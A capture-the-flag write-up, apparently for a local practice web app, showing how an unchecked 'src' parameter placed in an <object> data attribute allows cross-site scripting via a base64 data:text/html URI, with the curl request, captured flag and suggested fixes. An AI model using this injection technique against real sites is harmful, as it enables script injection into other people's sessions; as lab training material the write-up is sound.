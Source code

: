 # XSS Data parameter

## Exploitation

On the homepage, we can see a link on an image

```html
...
	<p>
        <br/>
        <br/>
        <br/>
        <a href="?page=media&src=nsa"><img src="images/nsa_prism.jpg" alt="" /></a>
    </p>
```

When we click on it, we go to a page `http://192.168.1.48/?page=media&src=nsa` with the same image

The take the image name on the GET parameter?

The image is not in a `<img>` but in `<object>`

```html
<object data="http://192.168.1.48/images/nsa_prism.jpg"></object>
```

What is an object balise?

> L'élément HTML <object\> représente une ressource externe qui peut être interprétée comme une image, un contexte de navigation imbriqué ou une ressource à traiter comme un plugin.
>
> <cite>https://developer.mozilla.org/fr/docs/Web/HTML/Element/object</cite>

Also, we can see in the header request we can inject html, not just images. Because the `<object>` don't have `type` attribute to force the type

> type
>
>    Le type MIME de la ressource définie par  data. Au moins un attribut data et un attribut type doivent être définis.
>
> <cite>https://developer.mozilla.org/fr/docs/Web/HTML/Element/object</cite>

```
Accept text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```

The `src` GET parameter is used to fill the `data` object attribute. We need to inject other data (html or script) to execute

The way to inject html on object `data` attribute is to encode the html in base64 and use this syntax:

```html
<object data="data:text/html;base64,encoded_payload"></object>
```

(https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris)

Let's encode a little javascript payload

```html
<script>alert("coucou");</script>
```

In base64:

```
$ echo "<script>alert("coucou");</script>" | openssl base64
PHNjcmlwdD5hbGVydChjb3Vjb3UpOzwvc2NyaXB0Pgo=
```

Ok, the parameter payload will be:

```
src="data:text/html;base64,PHNjcmlwdD5hbGVydChjb3Vjb3UpOzwvc2NyaXB0Pgo="
```

```
$ curl 'http://192.168.1.48/?page=media&src=%22data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=%22' | grep flag
<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>				</div>
```

script it!

```
$ ./exploit.py          
 The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

## How to fix it?

- Using the attribute `type` for `<object>` to force only images.
- Not use `<object>` but `<img>` instead, it's better for images on html
- Also get the full path of the image in the parameter, not just a short name
